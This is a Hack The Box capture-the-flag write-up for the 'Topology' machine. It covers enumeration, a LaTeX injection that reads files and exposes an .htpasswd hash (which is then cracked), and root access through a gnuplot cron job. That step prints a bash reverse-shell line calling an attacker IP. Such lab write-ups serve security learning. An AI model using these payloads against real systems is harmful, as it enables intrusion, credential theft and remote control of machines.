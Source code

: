 ```yaml
---
title: "Hack The Box - Topology [Easy]"
publishedAt: 2023-08-20
description: "HTB Writeup"
isPublish: true
---
```


I've started with simple machine enumeration

```bash
$ nmap -sV 10.10.11.217
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Then I went to `topology.htb` to check out the website, noticed the possible users (according to the email that is formatted like `lklein@topology.htb`). I've enumerated possible users:

```
lklein
vdaisley
dabrahams
```

I went on to figure out what is located at http://latex.topology.htb/equation.php which was the only link on the website. There I found out some LaTeX to PNG convertor. I've figured out that there must be some trickery with this so I went my way to research the topic. 

I've found out the following:
- https://0day.work/hacking-with-latex/
- https://salmonsec.com/cheatsheets/exploitation/latex_injection

These two links, helped me to figure out that I had an LFI vulnerability at hand. Upon searching different files such as `/etc/passwd, /proc/self/cmdline, /proc/self/environ` and so on, I've figured out that I must be missing something. I began to explore what other subdomains (because there is `latex.topology.htb` I thought there would be more) were on the webserver using `ffuf`.

```bash
$ ffuf -w $commontxt -u http://topology.htb/ -H "Host: FUZZ.topology.htb" -r
```

Which yielded the following domains:

- `dev`
- `stats`

I've browsed through those and on the stats there were simple plots about the current usage of the system and that's it. But on the `dev` subdomain there was a Basic Auth in place which I then figured out that I can read the `.htpasswd` with the LFI vulnerability in the `latex.topology.htb` input form. 

I've tried a couple of times to read the file, but there were unsuccessful, and I went my way to figure out why and what's going on. 

I honestly didn't know how can I read the file and I turned out to some help, which I then understood that I can use the `LaTeX/Source Code Listings` which also can read a file with `\lstinputlisting{/var/www/dev/.htpasswd}`, however the website just resulted in no image (possible error) using just this command. 

Here comes this post to the rescue https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and

Since the website is about math, we can use the `inline math delimiters` that are `$ and $` which can turn my payload from `\lstinputlisting{/var/www/dev/.htpasswd}` to `$\lstinputlisting{/var/www/dev/.htpasswd}$` which resulted into getting the basic auth hash.

```
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0
```

Using `hashcat` we can extract the password

```
$ hashcat -m 1600 crack.txt /usr/share/wordlists/rockyou.txt
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0:goDoItOnYourOwn
```

With that, I tried the users that I've enumerated earlier and the user `vdaisley` worked out, so I went to log in with SSH and got the user flag.


# Root

The root was pretty easy, first we can see which directories are writable:

```
$ find / -type d -writable 2>/dev/null
...
/opt/gnuplot
...
```

This directory looked suspicious, I've fired up `pspy` to checkout what is going on and I got this:

![rwojak](/htb/htb-topology-pspyrun.png)

So we are finding `*.plt` files in this directory, and then we are executing `gnuplot` as root. Using this [article,](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/#command-execution) I've crafted a `test.plt` file with the contents of:

```bash
vdaisley@topology:/opt/gnuplot$ cat ~/test.plt 
system "bash -c 'bash -i >& /dev/tcp/10.10.16.xx/4444 0>&1'"
```

I've copied the file to the `/opt/gnuplot` directory and I've waited to get a remote connection which I got in about a minute. With that I rooted the machine.
